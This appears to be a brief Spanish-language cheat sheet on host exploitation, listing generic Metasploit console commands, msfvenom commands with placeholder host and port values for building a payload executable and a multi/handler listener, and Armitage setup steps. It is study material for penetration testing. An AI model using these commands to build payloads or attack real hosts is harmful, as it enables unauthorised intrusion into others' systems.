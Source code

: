 # Explotación y hacking de vulnerabilidades en Hosts

## Explotación manual

Descarga el payload asociado a la vulnerabilidad y ejecutalo.

## Metasploit

msfconsole
msfcli

 - Error en Nessus
   Preferences -> privacidad -> clear data

- Comandos
    search XXXX
    use XXXXX
    set payload XXXX
    show options
    show payloads
    exploit
    show target
    load nessus
    nessus_help
    db_import XXX
    help vulns

## Msfvenom

 - Commandos
     msfvenom -h
     msfvenom - p XXXX lhost=XXX lport=XXXX
     use exploit multi/handler
     msfvenom - p XXXX lhost=XXX lport=XXXX -f exe > prueba.exe

## Armitage

Es un IDE para metasploit

sudo apt-get install armitage
service postgresql start
armitage

